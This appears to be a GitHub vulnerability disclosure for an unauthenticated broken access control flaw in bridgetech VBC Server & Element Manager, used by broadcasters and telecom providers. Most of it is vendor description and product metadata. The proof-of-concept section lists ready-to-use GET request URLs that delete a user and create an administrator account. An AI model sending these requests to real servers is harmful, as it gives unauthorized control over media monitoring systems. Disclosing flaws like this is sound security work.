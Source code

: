 # bridgetech VBC Server & Element Manager Broken Access Control Vulnerability

## Too lazy to write details, so here’s the description of the device from the vendor’s website
---
## Description
The Bridge probes offered in the VBC are VB120, VB220, VB330, VB440, NOMAD, MDC and QTT Manager.

The VBC is structured around the concept of Sites, Users and Nodes. A Site is often a geographical location (Paris) or a logical network demarcation structure (Head-End-Ingest). A User is a user role defined by the admin user and could be anything. Users are given access to Sites. In this manner it is possible to deploy a single VBC instance and have multiple commercially independent entities accessing the same system. Nodes – or probes – are the physical monitoring points in the network and are organized underneath Sites.  

The VBC server may be accessed by several users simultaneously. An administrator manages users and their access rights, and a user can only view information concerning sites that he has access rights to. A user with read-only access can only view alarms whereas a user with read/write access can alter equipment settings at the sites he has access to. 
Centralized server software allowing unified monitoring of all deployed probes. Offers alarm aggregation, trend analysis (via microTimeline™), dashboards, Visio map integration, configuration management, user access control, reporting, and scaling from small to large deployments

Bridge Technologies is a Norwegian company based in Oslo that specializes in advanced monitoring, analysis, and quality assurance systems for digital media and telecommunications. Their solutions ensure high service quality across broadcast, cable, satellite, OTT, IPTV, and home networks, safeguarding content delivery for over 1.2 billion subscribers and thousands of channels worldwide
## Who Uses These Devices?

These solutions are primarily used by:

Broadcast and media companies (TV stations) operating studios,professional streamers, head-ends, and remote production environments.

Telecom, cable, satellite, and OTT providers ensuring service quality across networks.

Network engineers and QA teams needing real-time and historic insight into media delivery.

Remote production and field engineers deploying NOMAD in dynamic environments.

Large-scale operations managing many probes centrally via the VBC server.

---

## Vendor Information
- **Vendor:** bridgetech
- **Vendor Homepage:** [https://bridgetech.tv/](https://bridgetech.tv/)

---

## Affected Products
- **Product:** bridgetech VBC Server & Element Manager


- **Built Version:** Aug 12 2025 , Jul 1 2025 12:43:42
- **Firmware Version:**  6.5.0-10  , 6.5.0-9  

---

## Vulnerable Endpoints
- `/vbc/core/userSetupDoc/userSetupDoc`  


---

## Attack Type
- **Type:** Broken Access Control  
- **Classification:** Improper Authorization  

---

## Impact
**Severity:** High  
---
## Attack Vector
- **Access Method:** Remote, over HTTP  
- **Authentication Requirement:** None (unauthenticated)  
- **Exploit Complexity:** Low (simple HTTP requests)  

---

## Proof of Concept (PoC)
make a get requste for his endpoints
del user

{target}/vbc/core/userSetupDoc/userSetupDoc?DelUser=1&addName=test2&addUsergroup=0&addStreamgroup=Default&addAutologin=false&addStream=true&addStack=false&addShowNum=true&addShowIface=false&addPass=098f6bcd4621d373cade4e832627b4f6&edix=1&secs=1756121840257

add admin user

{target}/vbc/core/userSetupDoc/userSetupDoc?UpdateFromDlg=1&addName=test2&addUsergroup=0&addStreamgroup=Default&addAutologin=false&addStream=true&addStack=false&addShowNum=true&addShowIface=false&addPass=test&submitflash=submit&secs=1756121983627

{target}/vbc/core/userSetupDoc/userSetupDoc?UpdateFromDlg=1&addName=test2&addUsergroup=0&addStreamgroup=Default&addAutologin=false&addStream=true&addStack=false&addShowNum=true&addShowIface=false&addPass=test&submitflash=submit

---
## **PoC Video**  
https://github.com/user-attachments/assets/543940e3-13f9-498e-9f73-95f336b01073
